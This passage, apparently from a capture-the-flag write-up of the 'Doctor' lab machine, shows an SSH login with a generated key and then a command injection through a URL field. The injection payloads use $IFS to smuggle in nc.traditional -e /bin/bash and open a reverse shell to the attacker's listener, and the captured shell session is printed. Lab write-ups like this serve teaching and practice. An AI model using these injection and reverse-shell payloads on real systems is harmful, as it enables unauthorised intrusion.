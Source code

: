 

Now I'll connect with that key and have an SSH shell:



    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# ssh -i ~/keys/ed25519_gen web@10.10.10.209
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage


    76 updates can be installed immediately.
    36 of these updates are security updates.
    To see these additional updates run: apt list --upgradable


    The list of available updates is more than a week old.
    To check for new updates run: sudo apt update
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

    Your Hardware Enablement Stack (HWE) is supported until April 2025.
    Last login: Sun Nov  1 16:25:12 2020 from 10.10.14.6
    web@doctor:~$



#### Shell via nc.traditional

If I start with just connecting with `nc` (not a shell), it works with a
payload of `http://10.10.14.6/$(nc$IFS'10.10.14.6'$IFS'443')`:



    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40418.



Various reverse shells didn't work. I tried `-e /bin/bash` on `nc`, as
well as Bash reverse shells without success. Eventually I tried
`nc.traditional` (which is like `nc`, but will have the `-e` flag), and
it worked:



    http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')



I got a shell:



    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40450.
    id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
